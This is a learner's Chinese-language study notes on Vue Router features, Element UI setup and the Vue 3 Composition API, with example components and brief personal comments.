1. 作用:让不展示的路由组件保持挂载,不被销毁
2. 具体编码
```js
        <!-- 不写include,所有的组件都会保存 -->
        // <keep-alive include="News">
        // 数组形式
        <keep-alive :include="['News','Message']">
            <router-view></router-view>
        </keep-alive>
```


### activated和deactivated生命周期钩子

1. 作用: 路由组件所独有的两个钩子,用于捕获路由组件的激活状态

2. 具体使用:
```js
    activated(){// 激活触发
        this.timer = setInterval(() => {
            this.opacity -= 0.01
            if (this.opacity <= 0) this.opacity = 1
            // console.log('@')
        }, 16)
    },
    deactivated(){// 失活触发
        console.log('News组件失活了')
        clearInterval(this.timer)
    }
```


### 路由守卫

1. 作用:对路由进行权限控制
2. 分类:全局守卫,独享守卫,组件内守卫

#### 全局守卫

```js
// 全局前置路由守卫-初始化的时候被调用,每次路由切换之前被调用
router.beforeEach((to, from, next) => {
    console.log('前置路由守卫', to, from)
    if (to.meta.isAuth) {  // 判断是否需要鉴权
        if (localStorage.getItem('school') === 'zzmr') {
            next()
        } else {
            alert('学校名不对,无权限查看')
        }
    } else {
        next()
    }
})


// 后置路由守卫---初始化的时候被调用，每次路由切换之后被调用
router.afterEach((to, from) => {
    document.title = to.meta.title || 'ZZMR'
})
```

同时也引入新的路由配置项:meta,用于自定义一些属性,来辅助一些功能


#### 独享守卫

```js
{
                    name: 'xinwen',
                    path: 'news',
                    component: News,
                    meta: { isAuth: true, title: '新闻' },
                    beforeEnter: (to, from, next) => {
                        console.log('独享路由守卫', to, from)
                        if (to.meta.isAuth) {  // 判断是否需要鉴权
                            if (localStorage.getItem('school') === 'zzmr') {
                                next()
                            } else {
                                alert('学校名不对,无权限查看')
                            }
                        } else {
                            next()
                        }
                    }
                },
```

就是直接在路由里面写,但是只有前置,没有后置


#### 组件内路由守卫

进入和离开守卫

```js
<template>
    <h2>我是About的内容</h2>
</template>

<script>
export default {
    name: 'About',
    /* beforeDestroy() {
        console.log('About组件即将被销毁了')
    },
    mounted() {
        console.log('About组件挂在完毕')
    } */

    // 通过路由规则,进入该组件时被调用
    beforeRouteEnter(to, from, next) {
        console.log('App---beforeRouteEnter')
        next()
    },
    // 通过路由规则,离开该组件时被调用
    beforeRouteLeave(to, from, next) {
        console.log('App---beforeRouteLeave')
        next()
    }
}
</script>

<style>

</style>
```


### hostory模式和hash模式

'#'官方名:hash(哈希)

1. 对于一个url来说，什么是hash值?---#及其后面的内容就是hash值
2. hash值不会包含HTTP请求种,即:hash值不会带给服务器
3. hash模式:
    - 地址中永远带着#号,不美观
    - 若以后地址通过第三方手机App分享,若app校验严格,则地址会被标记为不合法
    - 兼容性比较好
4. history模式
    - 地址干净,美观
    - 兼容性和hash模式相比略差
    - 应用部署上线时需要后端人员支持,解决刷新页面服务端404的问题


springboot解决(*解决了,但没完全解决*)
```java
package com.zzmr.boot.config;

import org.springframework.boot.web.server.ErrorPage;
import org.springframework.boot.web.server.ErrorPageRegistrar;
import org.springframework.boot.web.server.ErrorPageRegistry;
import org.springframework.http.HttpStatus;
import org.springframework.stereotype.Component;

/**
 * 解决Vue使用history模式，刷新404问题
 * 虽然是解决了404问题，但好像如果没有资源，依然会跳转到index.html，，，，，
 */

@Component
public class ErrorConfig implements ErrorPageRegistrar {
    @Override
    public void registerErrorPages(ErrorPageRegistry registry) {
        ErrorPage error404Page = new ErrorPage(HttpStatus.NOT_FOUND, "/index.html");
        registry.addErrorPages(error404Page);
    }
}
```

还有就是一个打包命令:
npm run build
打包整个项目,然后放到springboot项目下的static目录下,就可以正常访问了


## Vue UI组件库

两大类
- 移动端
    - [Vant](https://youzan.github.io/vant)
    - [Cube-UI](https://didi.github.io/cube-ui)
    - [Mint-UI](http://mint-ui.github.io)
- PC端常用UI组件库
    - [Element-UI](https://element.eleme.cn)
    - [IView-UI](https://www.iviewui.com)

### Element UI

安装:```npm i element-ui```
然后,简单的引入使用就行了
```js
// 引入ElementUI组件库
import ElementUI from 'element-ui';
// 引入ElementUI的全部样式
import 'element-ui/lib/theme-chalk/index.css';

// 应用ElementUI
Vue.use(ElementUI)
```

没错,全部引入肯定不太行


### Element UI 按需引入

1. 安装
```npm install babel-plugin-component -D```

2. 修改引入方式
```js
// 按需引入
import { Button, Row, DatePicker } from 'element-ui';


// 关闭Vue的生产提示
Vue.config.productionTip = false


Vue.component(Button.name, Button);
Vue.component(Row.name, Row);
Vue.component(DatePicker.name, DatePicker);
```

用哪个就引入哪个

3. 还有一个文件要改:babel.config.js
```js
module.exports = {
  presets: [
    '@vue/cli-plugin-babel/preset',
    // ["es2015", { "modules": false }]
    ["@babel/preset-env", { "modules": false }]
  ],
  plugins: [
    [
      "component",
      {
        "libraryName": "element-ui",
        "styleLibraryName": "theme-chalk"
      }
    ]
  ]
}
```

2023年1月16日 21点20分
好了,Vue2学完了

## Vue3

其实我在想到底是先去做一个vue2的项目,还是直接看完Vue3然后直接去写一个前后端交互的项目
现在想想,还是后者吧


### 创建工程

#### 使用vue-cli创建项目
1. 创建Vue3项目:vue create vue3_test
还是要在管理员权限下才可以创建


#### 使用vite创建项目

什么是vite?---新一代的前端构建工具

创建项目:

```js
## 创建工程
npm init vite-app <project-name>
## 进入工程目录
cd <project-name>
## 安装依赖
npm install
## 运行
npm run dev
```

是非常快,但是后面使用还是cli哈哈哈哈


### 项目结构
最大的改变:main.js
```js
// 引入不再是Vue构造函数了,而是createApp,是一个工厂函数
import { createApp } from 'vue'
import App from './App.vue'

// 创建应用实例对象-app(类似于vue2中的vm,但app比vm轻量),并挂载
createApp(App).mount('#app')

// 已经不支持vue2的写法了
```

还有就是组件不用写跟标签了,可以直接写内容
```js
<template>
  <!-- Vue3组件中的模板结构可以没有根标签 -->
  
  <HelloWorld msg="Welcome to Your Vue.js App" />
</template>
```

### 常用Composition API
组合式API

#### setup

1. 理解: Vue3.0中一个新的配置项,值为一个函数
2. setup是所有CompositionAPI(组合API)'表演的舞台'
3. 组件中所用到的:数据方法等等,均要配置在setup中
4. setup函数的两种返回值
    - 若返回一个对象,则对象中的属性,方法,在模板中均可以直接使用
    - ~~若返回一个渲染函数:则可以自定义渲染内容(了解)~~
    ```js
    <template>
    <h1>一个人的信息</h1>
    <h2>姓名{{ name }}</h2>
    <h2>年龄{{ age }}</h2>
    <button @click="sayHello">sayHello</button>
    </template>

    <script>

    import { h } from 'vue'

    export default {
    name: 'App',
    setup() {
        // 此处只是测试一下setup,暂时不考虑响应式的问题
        // 数据
        let name = '张三'
        let age = 18

        // 方法
        function sayHello() {
        alert(`我叫${name},我${age}岁了,Hello`)
        }

        // 返回一个对象(常用)
        /* return {
        name,
        age,
        sayHello,
        } */

        // 返回一个函数,(渲染函数)
        // return () => { return h('h1', 'ZZMR') }
        return () => h('h1', 'ZZMR')
    }
    }
    </script>
    ```
5. 注意点:
    - 尽量不要与Vue2.x配置混用
        - Vue2.x(data,methods,computed)中可以访问到setup中的属性
        - 但在setup中不能访问到vue2.x的配置(data,methods,computed)
        - 如果有重名,setup优先
    - setup不能是一个**async函数**,因为返回值不再是return的对象,而是promise,模板看不到return对象中的属性


#### ref函数

引用实现的实例对象-引用对象

1. 作用: 定义一个响应式数据
2. 语法: ```const xxx = ref(initValue)```
    - 创建一个包含响应式数据的应用对象(reference)对象-简称ref对象
    - JS中操作数据-xxx.value
    - 模板中读取数据:不需要value,直接```<div>{{xxx}}</div>```
3. 备注: 
    - 接收的数据可以是:基本类型,也可以是对象类型
    - 基本类型的数据,响应式依然是靠```Object.defineProperty()```的get与set完成的
    - 对象类型的数据:内部使用了-reactive函数

setup配置项
```js
setup() {
    // 此处只是测试一下setup,暂时不考虑响应式的问题
    // 数据
    let name = ref('张三')
    let age = ref(18)
    let job = ref({
      type: '全栈工程师',
      salary: '20K'
    })

    // 方法 
    function changeInfo(){
      name.value = '李四'
      age.value = 20
      // 有点反直觉?
      job.value.type = '离职'
      job.value.salary = '30k'
      console.log(name,age)
    }


    // 返回一个对象(常用)
    return {
      name,
      age,
      changeInfo,
      job
    }

    // 返回一个函数,(渲染函数)
    // return () => { return h('h1', 'ZZMR') }
    // return () => h('h1', 'ZZMR')
  }
```

#### reactive函数

1. 作用: 定义一个对象类型的响应式数据(基本类型不要用它,要用ref函数)
2. 语法: const 代理对象 = reactive(源对象)接收一个对象(或数组),返回一个代理对象(proxy的实例对象)
3. reactive定义的响应式数据是"深层次的"
4. 内部基于ES6的proxy实现,通过代理对象操作源对象内部数据进行操作

```js
<template>
  <h1>一个人的信息</h1>
  <h2>姓名{{ person.name }}</h2>
  <h2>年龄{{ person.age }}</h2>
  <h2>工作种类:{{ person.job.type }}</h2>
  <h2>工资{{ person.job.salary }}</h2>
  <h3>c的值为{{ person.job.a.b.c }}</h3>
  <h3>爱好:{{ person.hobby }}</h3>
  <button @click="changeInfo">修改人的信息</button>
</template>

<script>

import { reactive } from 'vue'

export default {
  name: 'App',
  setup() {

    let person = reactive({
      name: '张三',
      age: 18,
      job: {
        type: '全栈工程师',
        salary: '20K',
        a: {
          b: {
            c: 666
          }
        }
      },
      hobby: ['抽烟', '喝酒', '烫头']
    })

    // 方法 
    function changeInfo() {
      person.name = '李四'
      person.age = 20
      // 有点反直觉?
      person.job.type = '离职'
      person.job.salary = '30k'
      // 修改c
      person.job.a.b.c = 888

      // 修改hobby
      person.hobby[0] = '学习'

    }


    // 返回一个对象(常用)
    return {
      person,
      changeInfo,
    }
  }
}
</script>
```


#### Vue3响应式原理

Vue2中响应式存在的问题:
- 新增属性,删除属性,界面不会更新
- 直接通过下标修改数组,界面不会自动更新

>**Vue3的响应式**

- 通过Proxy(代理):拦截对象中任意属性的变化:包括:属性值的读写,属性的添加,属性的删除等
- 通过Reflect(翻身):对被代理(源)对象的属性进行操作
- MDN文档中描述Proxy和Reflect
    - [Proxy](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Proxy)
    - [Reflect](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Reflect)
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Vue3响应式</title>
</head>

<body>
    <script>
        let person = {
            name: '张三',
            age: 18,
        }

        // 模拟Vue2中实现响应式
        /* let p = {}
        Object.defineProperty(p, 'name', {
            configurable: true,
            // 有人读取name时调用
            get() {
                return person.name
            },
            // 有人修改name时使用
            set(value) {
                console.log('有人修改了name属性')
                person.name = value
            }
        })

        Object.defineProperty(p, 'age', {
            // 有人读取name时调用
            get() {
                return person.age
            },
            // 有人修改name时使用
            set(value) {
                console.log('有人修改了age属性')
                person.age = value
            }
        }) */

        // 模拟Vue3中的响应式
        const p = new Proxy(person,{
            get(target,propName){
                console.log(`有人读取了p的${propName}属性`)
                // return target[propName]
                return Reflect.get(target,propName)
            },
            // 不仅修改会调用,新增时也会调用
            set(target,propName,value){
                console.log(`有人修改了p的${propName}属性`)
                // return target[propName] = value
                return Reflect.set(target,propName,value)
            },
            defineProperty(target,propName){
                console.log(`有人删除了p的${propName}属性`)
                // return delete target[propName]
                return delete Reflect.deleteProperty(target,propName)
            }
        })

        let obj = {a:1,B:2}

        /* Object.defineProperty(obj,'c',{
            get(){
                return 3
            }
        })

        Object.defineProperty(obj,'c',{
            get(){
                return 4
            }
        }) */

        /* const x1 = Reflect.defineProperty(obj,'c',{
            get(){
                return 3
            }
        })

        const x2 = Reflect.defineProperty(obj,'c',{
            get(){
                return 4
            }
        }) */

    </script>
</body>

</html>
```

#### reactive对比ref

- 从定义数据角度对比
    - ref用来定义:**基本类型数据**
    - reactive用来定义:**对象(或数组)类型数据**
    - 备注: ref也可以用来定义对象(或数组)类型数组,它内部会自动通过reactive转化为代理对象
- 从原理角度对比
    - ref通过```Object.defineProperty()```的get与set来实现响应式(数据劫持)
    - reactive通过使用Proxy来实现响应式(数据劫持),并通过Reflect来操作源对象内部的数据
- 从使用角度对比
    - ref定义的数据,操作数据需要.value,读取数据时模板中直接读取不需要.value
    - reactive定义的数据:操作数据预读取数据,均不需要.value

#### setup两个注意点

1. setup的执行时机
    - 在beforeCreate之前执行一次,this是undefined
2. setup的参数
    - props:值为对象,包含:组件外部传递过来,且组件内部声明接受了的属性
    - context:上下文对象
        - attrs:值为对象,包含:组件外部传递过来,但没有在props配置中声明的属性,相当于```this.$attrs```
        - slots:收到的插槽内容,相当于```this.$slots```
        - emit:分发自定义事件的函数:相当于```this.$emit```

>App.vue
```js
<template>
  <Demo @hello="showHelloMsg" msg="Hello" school="ZZMR">
    <template v-slot:qwe>
      <span>ZZMR</span>
    </template>
  </Demo>
</template>

<script>

import Demo from './components/Demo.vue'

export default {
  name: 'App',
  components: {
    Demo,
  },
  setup() {
    function showHelloMsg(value) {
      alert(`Hello,触发了Hello事件,收到的参数是${value}`)
    }

    return {
      showHelloMsg
    }
  }
}
</script>
```

>Demo.vue
```js
<template>
    <h1>一个人的信息</h1>
    <h2 v-show="person.name">姓名{{ person.name }}</h2>
    <h2>年龄{{ person.age }}</h2>
    <button @click="test">测试Demo组件的Hello事件</button>
</template>

<script>

import { reactive } from 'vue'

export default {
    name: 'Demo',
    /* beforeCreate(){
        console.log('BeforeCreate')
    }, */
    props:['msg','school'],
    emits:['hello'],
    setup(props,context) {
        // console.log('---setup')
        // console.log('传入的props为: ',props)
        // console.log('传入的context为: ',context.attrs)
        // console.log('传入的context为: ',context.attrs)
        // console.log('传入的context为: ',context.emit) 
        
        console.log(context.slots)

        let person = reactive({
            name: '张三',
            age: 18,
        })

        function test(){
            context.emit('hello',666)
        }

        // 返回一个对象(常用)
        return {
            person,test
        }
    }
}
</script>
```


#### 计算属性

computed函数
- 与Vue2中的computed配置功能一致
- 写法:
```js
// 不建议再使用Vue2的写法了
    /* computed:{
        fullName(){
            return this.person.firstName + '-' + this.person.lastName
        }
    }, */
    setup() {

        let person = reactive({
            firstName: '张',
            lastName: '三',
        })

        // 计算属性---简写,没有考虑计算属性被修改的情况
        /* person.fullName = computed(()=>{
            return person.firstName + '-' + person.lastName
        }) */

        // 计算属性---完整写法,考虑计算属性被修改的情况
        person.fullName = computed(
            {
                get(){
                    return person.firstName + '-' + person.lastName
                },
                set(value){
                    const nameArr = value.split('-')
                    person.firstName = nameArr[0]
                    person.lastName = nameArr[1]
                }
            }
        )


        // 返回一个对象(常用)
        return {
            person
        }
    }
```

#### 监视属性

- 与Vue2中watch配置功能一致
- 两个小坑
    - 监视reactive定义的响应式数据时,oldValue无法正确获取,强制开启了深度监视(deep配置失效)
    - 监视reactive定义的响应式数据中某个属性时,deep配置有效

```html
<template>
    <h2>当前求和为: {{ sum }}</h2>
    <button @click="sum++">点我加1</button>
    <hr>
    <h2>当前的信息为{{ msg }}</h2>
    <button @click="msg += '!'">修改信息</button>
    <hr>
    <h2>姓名: {{ person.name }}</h2>
    <h2>年龄: {{ person.age }}</h2>
    <button @click="person.name += '@'">修改姓名</button>
    <button @click="person.age++">增长年龄</button>
    <hr>
    <h2>薪资:{{ person.job.j1.salary }}</h2>
    <button @click="person.job.j1.salary++">加薪</button>
</template>

<script>

import { ref, watch, reactive } from 'vue'

export default {
    name: 'Demo',

    // Vue2的写法
    /* watch: {
        sum(newValue, oldValue) {
            console.log('sum的值变化了', newValue, oldValue)
        },
        sum: {
            // immediate:true,
            deep:true,
            handler(newValue, oldValue) {
                console.log('sum的值变化了', newValue, oldValue)
            }
        }
    }, */

    setup() {

        let sum = ref(0)
        let msg = ref('Hello')

        let person = reactive({
            name: '张三',
            age: 18,
            job: {
                j1: {
                    salary: 20
                }
            }
        })

        // 情况一:监视ref所定义的一个响应式数据
        /* watch(sum,(newValue, oldValue)=>{
            console.log('Sum的值变了',newValue, oldValue)
        },{
            immediate:true,
        }) */

        // 情况二:监视ref所定义的多个响应式数据
        /* watch([sum,msg],(newValue, oldValue)=>{
            console.log('Sum或msg的值变了',newValue, oldValue)
        },{
            immediate:true
        }) */

        // 情况三 监视reactive所定义的一个响应式数据,此处无法正确的获得oldValue
        // 强制开启了深度监视,就算关了也没用
        /* watch(person, (newValue, oldValue) => {
            console.log('Person变了', newValue, oldValue)
        },{deep:false}) */

        // 情况四: 监视ractive所定义的一个响应式数据中的某一个属性
        /* watch(()=>person.age, (newValue, oldValue) => {
            console.log('年龄变化了',newValue, oldValue)
        }) */

        // 情况五: 监视reactive所定义的一个响应式数据中的某些数据
        /* watch([()=>person.age,()=>person.name], (newValue, oldValue) => {
            console.log('年龄或姓名变化了变化了',newValue, oldValue)
        }) */

        // 特殊情况
        // 此处由于监视的是reactive所定义的对象中的某个属性,所以deep配置有效
        watch(()=>person.job, (newValue, oldValue) => {
            console.log('job变化了',newValue, oldValue)
        },{
            deep:true
        })

        // 返回一个对象(常用)
        return {
            sum, msg, person
        }
    }
}
</script>
```


**.value的问题**
```js
<template>
    <h2>当前求和为: {{ sum }}</h2>
    <button @click="sum++">点我加1</button>
    <hr>
    <h2>当前的信息为{{ msg }}</h2>
    <button @click="msg += '!'">修改信息</button>
    <hr>
    <h2>姓名: {{ person.name }}</h2>
    <h2>年龄: {{ person.age }}</h2>
    <button @click="person.name += '@'">修改姓名</button>
    <button @click="person.age++">增长年龄</button>
    <hr>
    <h2>薪资:{{ person.job.j1.salary }}</h2>
    <button @click="person.job.j1.salary++">加薪</button>
</template>

<script>

import { ref, watch, reactive } from 'vue'

export default {
    name: 'Demo',

    setup() {

        let sum = ref(0)
        let msg = ref('Hello')

        let person = ref({
            name: '张三',
            age: 18,
            job: {
                j1: {
                    salary: 20
                }
            }
        })

        // 不要加.value
        watch(sum,(newValue, oldValue)=>{
            console.log('sum改变了',newValue, oldValue)
        })

        /* watch(person.value,(newValue, oldValue)=>{
            console.log('person改变了',newValue, oldValue)
        }) */

        watch(person,(newValue, oldValue)=>{
            console.log('person改变了',newValue, oldValue)
        },{
            deep:true
        })

        // 返回一个对象(常用)
        return {
            sum, msg, person
        }
    }
}
</script>
```

**分清到底是ref还是reactive**


#### watchEffect函数

1. watch的套路是: 既要指明监视的属性,也要指明监视的回调
2. watchEffect的套路是:不用指定监视哪个属性,监视的回调中用到那个属性,那就监视哪个属性
3. watchEffect有点像computed
    - 但computed注重的是计算出来的值(回调函数的返回值),所以必须要写返回值
    - 而watchEffect更注重的是过程(回调函数的函数体),所以不用谢返回值
```js
        watchEffect(() => {
            const x1 = sum.value
            console.log('watchEffect所指定得回调执行了')
        })
```

#### 生命周期

- Vue3中可以继续使用Vue2中的生命周期钩子,但有两个要更改名字
    - beforeDestroy改为beforeUnmount
    - destroyed改为unmounted
- Vue3也提供了Composition API形式的生命周期钩子,与Vue2中钩子对应关系如下
  - `beforeCreate`===>`setup()`
  - `created`=======>`setup()`
  - `beforeMount` ===>`onBeforeMount`
  - `mounted`=======>`onMounted`
  - `beforeUpdate`===>`onBeforeUpdate`
  - `updated` =======>`onUpdated`
  - `beforeUnmount` ==>`onBeforeUnmount`
  - `unmounted` =====>`onUnmounted`

```js
setup() {

        let sum = ref(0)

        // 通过组合式API的形式去使用生命周期钩子
        onBeforeMount(()=> {
            console.log('---onBeforeMount---')
        })
        onMounted(()=> {
            console.log('---onMounted---')
        })
        onBeforeUpdate(()=> {
            console.log('---onBeforeUpdate---')
        })
        onUpdated(()=> {
            console.log('---onUpdated---')
        })
        onBeforeUnmount(()=> {
            console.log('---onBeforeUnmount---')
        })
        onUnmounted(()=> {
            console.log('---onUnmounted---')
        })

        // 返回一个对象(常用)
        return {
            sum,
        }
    },
```

#### 自定义hook函数

- 什么是hook?本质是一个函数,把setup函数中使用的CompositionAPI进行了封装
- 类似于vue2中的mixin
- 自定义hook的优势,复用代码,让setup中的逻辑更加清楚易懂

>**usePoint.js**
```js
import { reactive, onMounted, onBeforeUnmount } from 'vue'
export default function () {

    // 实现鼠标打点的数据
    let point = reactive({
        x: 0,
        y: 0,
    })

    // 方法
    function savePoint(event) {
        point.x = event.pageX
        point.y = event.pageY
        console.log(point.x, point.y)
    }

    // 实现鼠标打点相关的钩子
    onMounted(() => {
        window.addEventListener('click', savePoint)
    })

    onBeforeUnmount(() => {
        window.removeEventListener('click', savePoint)
    })

    return point
}
```

>**Demo.vue**
```js
<template>
    <h2>当前求和为: {{ sum }}</h2>
    <button @click="sum++">点我加1</button>
    <hr>
    <h2>当前点击时鼠标的坐标为: x:{{ point.x }},y:{{ point.y }}</h2>
</template>

<script>

import { ref } from 'vue'
import usePoint from '../hooks/usePoint'

export default {
    name: 'Demo',
    setup() {

        let sum = ref(0)

        let point = usePoint()

        
        // 返回一个对象(常用)
        return {
            sum,point,
        }
    },
}
</script>
```

#### toRef

- 作用:创建一个ref对象,其value值指向另一个对象中的某个属性
- 语法: ```const name = toRef(person,'name')```
- 应用: 要将响应式对象中的某个属性单独提供给外部使用时
- 扩展: toRefs与toRef功能一致,但是可以批量创建多个ref对象:```toRefs(person)```

```js
<template>
    <h2>姓名: {{ name }}</h2>
    <h2>年龄: {{ age }}</h2>
    <button @click="name += '@'">修改姓名</button>
    <button @click="age++">增长年龄</button>
    <hr>
    <h2>薪资:{{ job.j1.salary }}</h2>
    <button @click="job.j1.salary++">加薪</button>
</template>

<script>

import { reactive, toRef, toRefs } from 'vue'

export default {
    name: 'Demo',

    setup() {

        let person = reactive({
            name: '张三',
            age: 18,
            job: {
                j1: {
                    salary: 20
                }
            }
        })


        // 返回一个对象(常用)
        return {
            /* name: toRef(person, 'name'),
            age: toRef(person,'age'),
            salary: toRef(person.job.j1,'salary') */
            // 注意写法
            ...toRefs(person)
        }
    }
}
</script>
```

### 其他Composition API

#### shallowReactive与shallowRef

- shallowReactive: 只处理对象最外层属性的响应式
- shallowRef:只处理基本数据类型的响应式,不进行对象的响应式处理
- 什么时候用?
    - 如果有一个对象数据,结构比较深,但变化时只是外层属性变化===>shallowReactive
    - 如果有一个对象数据,后续功能不会修改该对象中的属性,而是生成新的对象来替换===>shallowRef
```js
<template>
    <h4>当前的x.y是{{ x.y }}</h4>
    <button @click="x.y++">点我x+1</button>
    <hr>
    <h2>姓名: {{ name }}</h2>
    <h2>年龄: {{ age }}</h2>
    <button @click="name += '@'">修改姓名</button>
    <button @click="age++">增长年龄</button>
    <hr>
    <h2>薪资:{{ job.j1.salary }}</h2>
    <button @click="job.j1.salary++">加薪</button>
</template>

<script>

import { reactive, shallowReactive, shallowRef, toRefs, ref } from 'vue'

export default {
    name: 'Demo',

    setup() {

        // 只考虑第一层数据的响应式
        // let person = shallowReactive({
        let person = reactive({
            name: '张三',
            age: 18,
            job: {
                j1: {
                    salary: 20
                }
            }
        })


        // let x = ref(0)
        // 要看传入的类型
        // let x = shallowRef(0)
        let x = shallowRef({
            y: 0
        })

        // 返回一个对象(常用)
        return {
            x,
            ...toRefs(person)
        }
    }
}
</script>
```

#### readonly与shallowReadonly

- readonly:让一个响应式数据变为只读(深只读)
- shallowReadonly:让一个响应式数据变为只读(浅只读)
- 应用场景:不希望数据被修改时

```js
<template>
    <h4>当前的求和为是{{ sum }}</h4>
    <button @click="sum++">点我x+1</button>
    <hr>
    <h2>姓名: {{ name }}</h2>
    <h2>年龄: {{ age }}</h2>
    <button @click="name += '@'">修改姓名</button>
    <button @click="age++">增长年龄</button>
    <hr>
    <h2>薪资:{{ job.j1.salary }}</h2>
    <button @click="job.j1.salary++">加薪</button>
</template>

<script>

import { reactive, shallowReactive, shallowRef, toRefs, ref ,readonly,shallowReadonly} from 'vue'

export default {
    name: 'Demo',

    setup() {

        let sum = ref(0)

        // 只考虑第一层数据的响应式
        // let person = shallowReactive({
        let person = reactive({
            name: '张三',
            age: 18,
            job: {
                j1: {
                    salary: 20
                }
            }
        })

        // person = readonly(person)
        // person = shallowReadonly(person)
        sum = shallowReadonly(sum)
        


        // 返回一个对象(常用)
        return {
            sum,
            ...toRefs(person)
        }
    }
}
</script>
```

#### toRaw与markRaw

1. toRaw:
    - 作用:将一个由reactive生成的响应式对象转为普通对象
    - 使用场景:用于读取响应式对象对应的普通对象,对这个普通对象的所有操作,不会引起页面刷新
2. markRaw:
    - 作用:标记一个对象,使其永远不会再成为响应式对象
    - 应用场景:
        - 有些值不应设置为响应式,例如复杂的第三方类库等
        - 当渲染具有不可变数据源的大列表时,跳过响应式转换可以提高性能

```js
<template>
    <h4>当前的求和为是{{ sum }}</h4>
    <button @click="sum++">点我x+1</button>
    <hr>
    <h2>姓名: {{ name }}</h2>
    <h2>年龄: {{ age }}</h2>
    <button @click="name += '@'">修改姓名</button>
    <button @click="age++">增长年龄</button>
    <hr>
    <h2>薪资:{{ job.j1.salary }}</h2>
    <h3 v-show="person.car">{{ person.car }}</h3>
    <button @click="job.j1.salary++">加薪</button>
    <hr>
    <button @click="showRawPerson">输出最原始的person</button>
    <button @click="addCar">给人添加一台车</button>
    <button @click="person.car.name+='!'">换车名</button>
    <button @click="person.car.price+='0'">换价格</button>
</template>

<script>

import { reactive, toRaw, toRefs, ref, markRaw } from 'vue'

export default {
    name: 'Demo',

    setup() {

        let sum = ref(0)

        // 只考虑第一层数据的响应式
        // let person = shallowReactive({
        let person = reactive({
            name: '张三',
            age: 18,
            job: {
                j1: {
                    salary: 20
                }
            }
        })


        function showRawPerson() {
            /* const p = toRaw(person)
            console.log(p) */
        }

        function addCar() {
            let car = { name: 'bmw', price: '40W' }
            person.car = markRaw(car)
        }

        // 返回一个对象(常用)
        return {
            sum, showRawPerson,
            person,
            ...toRefs(person), addCar
        }
    }
}
</script>
```

#### customRef

- 作用:创建一个自定义的ref,并对其依赖项跟踪和更新触发进行显示控制
- 实现防抖效果

```js
<template>
  <input type="text" v-model="keyWord">
  <h3>{{ keyWord }}</h3>
</template>

<script>

import { ref, customRef } from 'vue';

export default {
  name: 'App',
  components: {

  },
  setup() {
    // 使用vue提供的ref
    // let keyWord = ref('hello')

    // 自定义一个ref-myRef
    function myRef(value) {
      let timer
      console.log('---myRef---', value)
      return customRef((track, trigger) => {
        return {
          get() {
            console.log('有人从myRef容器中读取数据了,给它的值:', value)
            track()  // 通知Vue追踪数据的变化(value)-提前和get商量一下,让他认为这个value是有用的
            return value
          },
          set(newValue) {
            console.log('有人把myRef容器中的数据改为了', newValue)
            clearTimeout(timer)
            timer = setTimeout(() => {
              value = newValue
              trigger() // 通知Vue去重新解析模板
            },1000)
          }
        }
      })
    }

    let keyWord = myRef('hello')  // 使用自定义的ref


    return {
      keyWord
    }
  }
}
</script>
```
也是终于知道防抖到底是什么样的了


#### provide与inject

1. 作用: 实现祖孙组件间通信
2. 套路: 父组件有一个provide选项来提供数据,后代组件有一个inject选项来开始使用这些数据

```js
// 父组件中:
    let car = reactive({
      name: 'bmw',
      price: '40W',
    })

    // 给自己的后打死组件传递数据
    provide('car',car)

// 后代组件中
    setup() {
        let car = inject('car')

        return { car }
    }
```

很简单,只是父子之间传递数据的话,还是建议使用简单的props,这种适合祖孙之间的通信(孙,重孙什么的)


#### 响应式数据的判断

- isRef:检查一个值是否为一个ref对象
- isReactive:检查一个对象是否是由reactive创建的响应式代理
- isReadonly:检查一个对象是否由readonly创建的只读代理
- isProxy:检查一个对象是否是由reactive或者readonly方法创建的代理

```js
<template>
  <h3>我是App组件(祖)</h3>
</template>

<script>

import { ref, reactive, toRefs, readonly, isRef, isReactive, isReadonly, isProxy } from 'vue';

export default {
  name: 'App',
  setup() {

    let car = reactive({
      name: 'bmw',
      price: '40W',
    })

    let sum = ref(0)

    let car2 = readonly(car)

    console.log(isRef(sum))
    console.log(isReactive(car))
    console.log(isReadonly(car2))
    console.log(isProxy(car))

    return {
      ...toRefs(car)
    }
  }
}
</script>
```

### Composition API的优势

没讲啥啊,但是能感觉到hook以后会用到很多


### 新的组件

#### Fragment

- 在Vue2中,组件必须有一个根标签
- 在Vue3中,组件可以没有根标签,内部会将多个标签包含在一个Fragment虚拟元素中
- 好处:减少标签层级,减少内存占用

#### Teleport

- 什么是Teleport:是一种能够将我们的组件html结构移动到指定位置的技术

```js
        <Teleport to="body">
            <div v-if="isShow" class="mask">
                <div class="dialog">
                    <h3>我是一个弹窗</h3>
                    <h3>一些内容</h3>
                    <button @click="isShow = false">关闭弹窗</button>
                </div>
            </div>
        </Teleport>
```

这个真只能用多了才能熟悉

#### Suspense
等待异步组件时渲染一些额外内容，让应用有更好的用户体验

异步引入组件
```js
import {defineAsyncComponent} from 'vue'
const Child = defineAsyncComponent(()=>import('./components/Child.vue'))
```

```js
<template>
	<div class="app">
		<h3>我是App组件</h3>
		<Suspense>
			<template v-slot:default>
				<Child/>
			</template>
			<template v-slot:fallback>
				<h3>加载中.....</h3>
			</template>
		</Suspense>
	</div>
</template>
```

### 其他

#### 全局API的转移
Vue2有许多全局API和配置

- 将全局的API，即：```Vue.xxx```调整到应用实例（```app```）上

    | 2.x 全局 API（```Vue```）  | 3.x 实例 API (`app`)                        |
    | ------------------------- | ------------------------------------------- |
    | Vue.config.xxxx           | app.config.xxxx                             |
    | Vue.config.productionTip  | 移除 |
    | Vue.component             | app.component                               |
    | Vue.directive             | app.directive                               |
    | Vue.mixin                 | app.mixin                                   |
    | Vue.use                   | app.use                                     |
    | Vue.prototype             | app.config.globalProperties                 |


#### 其他改变

- data选项应始终被声明为一个函数
- 过度类名的更改

- Vue2.x写法

```css
    .v-enter,
    .v-leave-to {
      opacity: 0;
    }
    .v-leave,
    .v-enter-to {
      opacity: 1;
    }
```

- Vue3.x写法

```css
    .v-enter-from,
    .v-leave-to {
      opacity: 0;
    }
    
    .v-leave-from,
    .v-enter-to {
      opacity: 1;
    }
```

- 移除了keyCode作为v-on的修饰符,同时也不再支持config.keyCodes
- 移除了v-on.native修饰符


- 父组件中绑定事件

```js
    <my-component
      v-on:close="handleComponentEvent"
      v-on:click="handleNativeClickEvent"
    />
```

